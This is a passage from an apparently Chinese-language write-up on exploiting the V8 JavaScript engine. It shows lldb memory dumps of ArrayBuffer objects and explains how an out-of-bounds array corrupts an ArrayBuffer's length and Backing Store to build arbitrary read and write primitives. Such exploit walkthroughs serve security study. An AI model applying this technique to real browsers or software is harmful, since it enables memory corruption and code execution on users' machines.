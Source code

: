 ```shell
           4: 0x25e084d947d1 <ArrayBuffer map = 0x25e0f0003fe9>
           5: 0x25e084d94821 <ArrayBuffer map = 0x25e0f0003fe9>
```


打印一下内存数据，可以看到第四个字段就是长度了，这里已经被我们改为`0x1212`
```shell
(lldb) x/20xg 0x25e084d94690
0x25e084d94690: 0x000025e0f0003fe9 0x000025e0b2b82251
0x25e084d946a0: 0x000025e0b2b82251 0x0000121200000000
0x25e084d946b0: 0x0000000102020c00 0x0000000102020c00
0x25e084d946c0: 0x0000000000001212 0x0000000000000004
0x25e084d946d0: 0x0000000000000000 0x0000000000000000
0x25e084d946e0: 0x000025e0f0003fe9 0x000025e0b2b82251
0x25e084d946f0: 0x000025e0b2b82251 0x0000123400000000
0x25e084d94700: 0x000000010202f400 0x000000010202f400
0x25e084d94710: 0x0000000000001234 0x0000000000000004
0x25e084d94720: 0x0000000000000000 0x0000000000000000
```

好啦，到这里我们解释下如何利用这个ArrayBuffer进行构造任意读和任意写

这是我们目前构造出的内存对象分部图，左边表示`oobArray`，中间是内存地址，与上面打印出来的地址对应，右边是`ArrayBuffer[0]`的结构对应，所以我们暴搜找到原始数组长度`0x123400000000`，此时记录`i`，这样`oobArray[i+1]`就是`Backing Store`字段，而把长度改为`0x1212`是因为我们现在有一百个ArrayBuffer，所以需要定位到我们当前这个ArrayBuffer，那么修改长度之后，再对一百个ArrayBuffer进行遍历长度，就可以找到一个`bufs[j].kByteLengthOffset`为`0x0000121200000000`，此时记录`j`

![IMAGE](/assets/resources/1458D088F0470125D5E17D32ACE47BF4.jpg)
